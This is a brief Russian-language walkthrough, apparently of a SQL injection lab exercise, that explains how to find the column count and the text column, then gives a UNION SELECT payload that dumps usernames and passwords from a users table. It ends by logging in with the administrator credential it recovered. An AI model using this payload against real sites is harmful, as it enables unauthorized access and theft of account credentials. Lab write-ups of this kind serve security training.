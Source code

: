 1)Сначала выясняем, сколько столбцов выводится -> в нашем случае их 2.
2)Выясняем, в каком столбце выводится текстовая информация -> в нашем случае - во втором.
3)Тогда в адресную строку пишем ' UNION SELECT NULL, username || '////' || password FROM users-- , что выводит нам базу данных пользователей.
Среди них есть и админ: administrator 9eovrbi9ryibgn57tuv0
4)Логинимся на сайт, используя эти данные.
